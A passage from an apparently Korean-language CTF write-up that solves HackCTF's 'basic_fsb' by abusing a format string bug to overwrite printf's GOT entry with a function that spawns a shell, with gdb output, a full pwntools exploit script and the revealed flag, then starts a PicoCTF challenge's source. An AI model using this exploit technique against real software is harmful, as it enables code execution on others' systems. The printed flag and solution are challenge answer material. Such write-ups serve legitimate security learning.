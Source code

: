 ```c
// flag()

int flag()
{
  puts("EN)you have successfully modified the value :)");
  puts(aKr);
  return system("/bin/sh");
}
```
<strong>IDA를 이용해서 코드로 변환을 해주었습니다. main 함수를 보면 vuln 함수를 호출하고 있고, vulln 함수를 보면 snprintf 함수에서 두 번째 매개변수로 서식 문자가 정의되어 있지 않아 FSB 취약점이 발생합니다. 그래서 FSB 취약점을 이용해서 printf 함수의 got를 flag 함수의 주소로 덮어주면 printf 함수가 실행될 때, flag 함수가 실행이 될 것 입니다.</strong><br>

```
root@py:~/pwn/HackCTF/B_F# ./basic_fsb
input : aaaa.%x.%x.%x.%x.%x
aaaa.f7fc5c75.61616161.2e78252e.252e7825.78252e78
root@py:~/pwn/HackCTF/B_F#

// gdb -q ./basic_fsb
gdb-peda$ x/i 0x80483d0
   0x80483d0 <printf@plt>:      jmp    DWORD PTR ds:0x804a00c
gdb-peda$ p flag
$2 = {<text variable, no debug info>} 0x80485b4 <flag>
gdb-peda$ 
```
<strong>바이너리 파일을 실행해서 오프셋을 확인해보니 두 번째 서식 문자에서 `aaaa`의 값이 출력되는 것을 볼 수 있고, printf got, flag 함수의 주소는 위와 같습니다.</strong><br>

```python
from pwn import *
p = remote("ctf.j0n9hyun.xyz", 3002)

payload = fmtstr_payload(2, {0x804a00c:0x80485b4})

p.sendline(payload)
p.interactive()

# 32 비트에서는 fmtstr_payload 함수를 이용해도 잘 되지만 64 비트에서는 거의 안 됨.
# 처음 풀 때 어려워 했는데 이해하고 다시 보니, webhacking.kr 1번 문제 느낌.
```

> FLAG : HackCTF{여보게_오늘_반찬은_포맷스트링이_어떠한가?}

---
PicoCTF Challenge : authenticate

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

int authenticated = 0;

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

```